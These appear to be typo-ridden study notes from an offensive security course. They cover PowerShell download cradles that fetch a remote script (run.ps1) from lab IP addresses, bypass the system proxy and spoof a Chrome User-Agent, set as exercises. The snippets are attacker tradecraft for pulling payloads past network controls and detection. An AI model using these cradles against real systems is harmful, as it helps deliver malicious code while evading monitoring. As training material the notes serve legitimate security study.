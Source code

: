 # Talking to proxy

Its essential to bypass proxy at the other end

then powershlle canbe download through: 

```ps1
$wc = new-object system.net.WebClient
$wc.DownloadString("http://10.10.6.12/run.ps1")
```

Running a proxy 
    To set up the proxy on our machine, we’ll right-click on the Windows Start icon and navigate to 
    Settings > Network & Internet > Proxy, and scroll down to “Manual proxy setup”.
    We’ll enable the proxy server and enter the IP address of the Windows 10 development client 
    (192.168.120.12 in our case) and the static TCP port 3128. Finally, we’ll click Save and close the 
    settings menu.

Proxy ccan be verified by :

`PS C:\Windows\SysWOW64\WindowsPowerShell\v1.0> 
[System.Net.WebRequest]::DefaultWebProxy.GetProxy("http://10.10.6.12/run.ps1")`

since proxy is autmatically handled:

```ps1
$wc = new-object system.net.WebClient
$wc.proxy = $null
$wc.DownloadString("http://192.168.119.120/run.ps1")
```

### 3.7.1.1 Exercises
1. Setup the proxy configuration and verify whether or not the Net.WebClient download cradle 
is proxy-aware.
2. Are other PowerShell download cradles proxy aware?

# Fiddling with User agent

You can add user aagent in the webclient object

```ps1
$wc = new-object system.net.WebClient
$wc.Headers.Add('User-Agent', "This is my agent, there is no one like it...")
$wc.DownloadString("http://192.168.119.120/run.ps1")
```

### 3.7.2.1 Exercises
1. Set a custom User-Agent in the download cradle and observe it in the Apache access logs.
2. Instead of a custom User-Agent string, identify one used by Google Chrome and implement 
that in the download cradle

```
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36
```
